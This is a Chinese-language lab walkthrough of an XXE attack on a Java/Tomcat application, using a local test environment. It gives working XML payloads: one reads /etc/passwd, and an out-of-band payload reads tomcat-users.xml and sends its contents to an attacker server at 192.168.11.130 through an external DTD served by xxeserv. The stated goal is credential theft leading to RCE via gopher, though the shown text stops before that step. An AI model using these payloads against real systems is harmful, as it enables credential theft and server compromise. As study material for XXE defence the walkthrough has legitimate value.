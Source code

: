  **XXE**

##

我们这边模拟一个JAVA-XXE的环境用XXE来读取其中的TOMCAT账号密码 ，最后用gopher来执行RCE。

 ****

  *   *   * 

    
    
    存在XXE 服务器IP:192.168.11.139 攻击服务器IP:192.168.11.130环境https://github.com/pimps/docker-java-xxe

这里搭建完后有个小BUG，需要将app中index.htmlxxe-example.war拷贝到子目录xxe-example。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223558.png)

我们先测试xxe是否能读取出XXE漏洞服务器本地密码。

这里访问192.168.11.139:8080并构建XXE，

 ****

  *   *   *   *   *   *   *   * 

    
    
    <!DOCTYPE Anything [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><book><title>&xxe;</title><isbn>31337</isbn><author>Jon Snow</author></book>

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223559.png)

我们接下来读取tomcat里面的tomcat-user.xml数据并将其传递给远程的攻击服务器。

提供ftp服务和web服务的服务器，FTP负责接受外部的DTD数据，WEB提供接受FTP的payload。

环境https://github.com/staaldraad/xxeserv

编写一个外部的dtd。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223600.png)

  * 

    
    
    ./xxeserv -wp 4444 -w -p[-wp为开启web并修改web端口 -p开启FTP端口]

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220924223602.png)

尝试读取tomcat-user.xml里面的账户密码。

构建XXE：

 ****

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <!DOCTYPE Anything [<!ENTITY % data3 SYSTEM "file:///opt/tomcat/conf/tomcat-users.xml"><!ENTITY % sp SYSTEM "http://192.168.11.130:4444/dtds/oob.dtd">%sp;%param3;%exfil;]><book><title>OOB EXFILL</title><isbn>31337</isbn><author>xxx</author></book>
